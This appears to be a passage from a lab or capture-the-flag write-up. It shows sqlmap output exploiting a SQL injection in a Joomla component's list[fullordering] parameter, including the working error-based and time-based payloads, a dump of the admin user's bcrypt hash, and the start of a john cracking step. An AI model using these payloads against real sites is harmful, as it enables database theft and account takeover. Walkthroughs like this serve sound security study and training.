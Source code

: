 ```jsx
[02:20:01] [INFO] testing connection to the target URL
[02:20:01] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=c58fg7qsgap...985gcqei64'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(5655,CONCAT(0x2e,0x7171716a71,(SELECT (ELT(5655=5655,1))),0x71627a7a71),1990))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5736 FROM (SELECT(SLEEP(5)))epcn)
---
[02:20:03] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[02:20:03] [INFO] fetching entries of column(s) '`id`, `password`, username' for table '#__users' in database 'joomladb'
[02:20:03] [INFO] retrieved: '629'
[02:20:03] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:20:03] [INFO] retrieved: 'admin'
Database: joomladb
Table: #__users
[1 entry]
+------+--------------------------------------------------------------+----------+
| id   | password                                                     | username |
+------+--------------------------------------------------------------+----------+
| 629  | **$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu** | admin    |
+------+--------------------------------------------------------------+----------+

[02:20:03] [INFO] table 'joomladb.`#__users`' dumped to CSV file '/root/.sqlmap/output/192.168.122.186/dump/joomladb/#__users.csv'
[02:20:03] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 7 times
[02:20:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.122.186'
[02:20:03] [WARNING] you haven't updated sqlmap for more than 362 days!!!

[*] ending @ 02:20:03 /2021-05-29/

root@kali:~#
```

*Found password in hash form **$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu*** 

*Now using john to crack the password*

cat > hash
